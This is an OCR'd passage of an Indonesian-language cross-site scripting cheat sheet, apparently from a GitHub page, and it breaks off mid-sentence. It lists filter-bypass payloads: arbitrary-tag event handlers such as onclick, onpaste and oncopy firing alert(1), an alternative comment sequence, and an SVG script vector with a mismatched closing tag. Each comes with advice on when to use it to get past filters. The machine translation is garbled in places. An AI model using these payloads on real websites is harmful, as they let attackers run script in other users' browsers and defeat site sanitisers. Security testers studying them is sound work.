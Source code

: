 Gunakan vektor berikut ini ketika semua nama tag HTML yang dikenal tidak diizinkan. Huruf apa saja

char atau string dapat digunakan sebagai nama tag di tempat "x". Mereka membutuhkan interaksi pengguna seperti yang dinyatakan

oleh konten teks mereka sendiri (yang menjadi bagian dari vektor juga).

     <x contenteditable onblur=alert(1)>lose focus!
    
     <x onclick=alert(1)>click this!
    
    <x oncopy=alert(1)>copy this!
    
    <x oncontextmenu=alert(1)>right click this!
    
    <x onauxclick=alert(1)>right click this!
    
    <x oncut=alert(1)>copy this!
    
    <x ondblclick=alert(1)>double click this!
    
    <x ondrag=alert(1)>drag this!
    
    <x contenteditable onfocus=alert(1)>focus this!
    
    <x contenteditable oninput=alert(1)>input here!
    
    <x contenteditable onkeydown=alert(1)>press any key!
    
    <x contenteditable onkeypress=alert(1)>press any key!
    
    <x contenteditable onkeyup=alert(1)>press any key!
    
    <x onmousedown=alert(1)>click this!
    
    <x onmousemove=alert(1)>hover this!
    
    <x onmouseout=alert(1)>hover this!
    
    <x onmouseover=alert(1)>hover this!
    
    <x onmouseup=alert(1)>click this!
    
    <x contenteditable onpaste=alert(1)>paste here! 

> Javascript Alternative Comments

Gunakan ketika komentar javascript biasa (garis miring ganda) tidak diizinkan, diloloskan atau

dihapus.

     <!--%0A-->

> SVG Script Vector - Arbitrary Closing TagGunakan saat filter mengharapkan "</script>" dan tidak ada penutupan asli setelah injeksi masuk

kode sumber dan / atau tanda sama dengan tidak diizinkan. Hanya tokek.

    <svg><x><script>alert(1)</x>

> Mixed Context Reflection Entity Bypass

Gunakan untuk mengubah refleksi yang difilter dalam blok skrip dalam kode js yang sebenarnya valid. Itu perlu direfleksikan
